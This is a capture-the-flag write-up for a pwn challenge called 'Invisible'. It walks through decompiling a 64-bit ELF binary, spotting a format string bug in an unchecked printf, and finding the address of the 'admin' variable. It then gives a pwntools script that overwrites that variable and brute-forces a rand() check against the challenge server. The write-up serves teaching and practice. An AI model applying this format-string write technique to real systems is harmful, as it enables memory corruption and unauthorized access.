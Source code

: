 # 3- Invisible 
```
Medium: pwn, 300 pts
```

## Description
```
I'm here 👀👀👀
nc 51.38.37.81 1234
Flag: CTF_*
```

>For this challenge, we are entitled to a pwn. Before of course running the file to see what it does, let's open it with ghidra.
>But well before, let's see what kind of file we are dealing with.

`$ file invisible`

`invisible: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8226f97582f5dceed8f5322cacb7f48abdbad248, for GNU/Linux 3.2.0, not stripped`

>Now let's see what ghidra tells us about our binary. Only one interesting function apart from the main: print_flag.


- print_flag

```c

void print_flag(void)

{
  system("cat /home/ecowas/flag");
  return;
}

```
- main

```c

undefined8 main(void)

{
  time_t tVar1;
  char local_98 [140];
  int local_c;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_c = rand();
  local_c = local_c % 0x32;
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98);
  if (local_c == 0x1b) {
    if (admin == 200) {
      print_flag();
    }
  }
  else {
    printf("Try again");
  }
  return 0;
}
```

>Obviously the print_flag function just displays the flag.
And the main then?
Two tricks catch our attention, two if conditions.
The first compares the local_c variable to 27 and the second compares the admin variable to 200.

>So for print flag, we have to match admin to 200 and local_c to 27. Small problem, we can't do it directly. It should be pointed out that the local_c is a (50 % rand).
>But thinking about it there is a problem with the printf function long before the two if conditions. 

There:

```c
  memset(local_98,0,0x80);
  fgets(local_98,0x80,stdin);
  printf(local_98); #bug here
```

> We are therefore dealing with an **ELF x64 - Format string bug**

>We propose a solution with pwntools and their module fmtstr.
A link to the doc <a href=http://docs.pwntools.com/en/stable/fmtstr.html>pwntools fmtstr</a>.
Our solution will consist in changing the value of admin and brute force the local_c so that it matches the 27 during the rand on the server.
>Now, we need to check if the data we give in the input is stored somewhere in the stack. To do that I give some bunch of characters and see if the data is printed when I print stack values with format specifiers.
>But before we must add execution right to the file

`$ chmod +x invisible`

And execute it.
<img src="File/invisible.png">

>Bingoooo 😌, we can now control the values on the stack from the 8th argument. We will now look for the address of the admin variable. To do this we will use `readelf`

`$ readelf -a ./invisible | grep admin`

The result:

<img src="File/readelf.png">

>We now have everything to write our exploit: the value to write, the address and the offset. 
>I specify that we must set the context on 64 bits. Below is the python code.

```python
from pwn import *
from time import sleep
context.arch = 'amd64'
for i in range(500):
	conn=remote('51.38.37.81',1234)
	payload=fmtstr_payload(8,{0x000000000040405c:200})
	conn.sendline(payload)
	print(conn.recvall())
	conn.close()
	sleep(0.1)
```

>It will depend on the server, i.e. the time to wait to match the local_c at 27. After a few minutes or seconds, we have our flag and we can therefore Ctrl+C (even if it is possible to add a line that does this in our exploit).
 
 
The flag: `CTF_14mpwnG047?943985030823`
